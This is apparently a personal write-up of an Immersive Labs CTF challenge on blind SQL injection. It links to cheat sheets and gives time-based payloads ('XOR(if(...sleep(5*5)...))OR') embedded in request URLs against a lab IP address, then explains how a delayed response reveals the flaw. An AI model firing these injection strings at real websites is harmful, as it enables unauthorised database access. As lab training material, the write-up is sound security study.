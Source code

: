 ```yaml
---
date: 2025-02-07
categories: [CTF, IML]
title: "IML - SQL Injection: Blind"
tags: ['http', 'sqli', 'exploit', 'rce', 'sql']

description: "SQL Injection Blind - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - SQL Injection: Blind

- Great Cheatsheets:
<https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet>

<https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MySQL%20-%20Time%20Based%20SQLi/README.md>

<https://ansar0047.medium.com/blind-sql-injection-detection-and-exploitation-cheatsheet-17995a98fed1>


![image1](../resources/39150bc6d9f84dfba5d6a1710f047711.png)

- Test for Time-Based Blind SQLi:

**'XOR(if(now()=sysdate(),sleep(5\*5),0))OR'**

`http:// 10.102.173.241/regards.php?email=stefan@immersivenews.co.uk%27XOR(if(now()=sysdate(),sleep(5*5),0))OR%27`

**'XOR(if(1=1,sleep(5\*5),0))OR'**

`http:// 10.102.173.241/regards.php?email=stefan@immersivenews.co.uk%20%27XOR(if(1=1,sleep(5*5),0))OR%27`

**'XOR(if(2=1,sleep(5\*5),0))OR'** \<--- This shouldn't work because the statement is false (2=1)

If the websites response is ~15 seconds, it means it is vulnerable to this kind of attack


![image2](../resources/30f64b8f60ff4b02b7df79daf3aa388d.png)

Website hangs for approx 15sec, so it's probably vulnerable